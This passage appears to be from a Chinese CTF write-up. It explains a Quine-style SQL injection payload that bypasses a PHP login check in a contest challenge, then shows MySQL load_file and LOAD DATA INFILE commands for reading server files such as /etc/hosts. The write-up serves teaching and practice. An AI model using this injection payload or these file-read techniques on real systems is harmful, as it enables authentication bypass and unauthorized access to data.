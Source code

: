 ## 再从payload理解为什么要用Quine

**第五空间智能安全大赛-Web-yet_another_mysql_injection**

```php
$password=$_POST['password'];
if ($username !== 'admin') {
    alertMes('only admin can login', 'index.php');
}
checkSql($password);
$sql="SELECT password FROM users WHERE username='admin' and password='$password';";
$user_result=mysqli_query($con,$sql);
$row = mysqli_fetch_array($user_result);
if (!$row) {
    alertMes("something wrong",'index.php');
}
if ($row['password'] === $password) {
	die($FLAG);
}
```

waf封了空格，直接用内联就行了。这里为了方便看就用回空格

> 1' union select replace(replace('1" union select replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1" union select replace(replace(".",char(34),char(39)),char(46),".")#')#
> 组合sql语句就是：
> SELECT password FROM users WHERE username='admin' and password='1' union select replace(replace('1" union select replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1" union select replace(replace(".",char(34),char(39)),char(46),".")#')#';

这时候，由于使用的是联合注入，当前文报错，就会回显后面的

>1' union select replace(replace('1" union select replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1" union select replace(replace(".",char(34),char(39)),char(46),".")#')#';

这就让`$row['password'] `等于了这一串，而这一串刚好和输入的`$psw`相等，完成了绕过

# Load DATA

其实在打比赛的时候经常拿到数据库之后经常就会尝试直接读文件，这个时候用的一般都是`load_file`这个函数

例如

```sql
select load_file('/etc/hosts');
```

![image-20240411142808596](https://img.b1xcy.top/img/202404111428688.png?x-oss-process=style/img2webp)

但是当`load_file`这个函数被ban的时候，还有`LOAD DATA`可以用

```sql
LOAD DATA INFILE '/etc/hosts' INTO TABLE test FIELDS TERMINATED BY '\n';
```
